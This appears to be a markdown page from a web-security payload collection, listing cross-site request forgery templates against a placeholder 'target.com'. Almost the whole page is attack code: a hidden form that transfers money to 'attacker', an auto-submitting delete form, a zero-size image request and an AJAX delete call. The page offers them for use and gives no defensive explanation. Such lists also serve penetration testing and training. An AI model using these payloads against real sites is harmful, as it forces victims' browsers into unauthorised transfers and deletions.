 ```yaml
---
layout: default
title: CSRF Payloads
---
```


# 🔄 Cross-Site Request Forgery (CSRF) Payloads

## HTML Form CSRF
```html
<form action="http://target.com/transfer" method="POST">
  <input type="hidden" name="amount" value="1000">
  <input type="hidden" name="to" value="attacker">
  <input type="submit" value="Click me">
</form>
```

## Auto-submit CSRF
```html
<form id="csrf" action="http://target.com/delete" method="POST">
  <input type="hidden" name="id" value="123">
</form>
<script>document.getElementById('csrf').submit();</script>
```

## Image-based CSRF (GET)
```html
<img src="http://target.com/delete?id=123" width="0" height="0">
```

## AJAX CSRF
```html
<script>
var xhr = new XMLHttpRequest();
xhr.open('POST', 'http://target.com/api/delete');
xhr.setRequestHeader('Content-Type', 'application/json');
xhr.send('{"id":"123"}');
</script>
```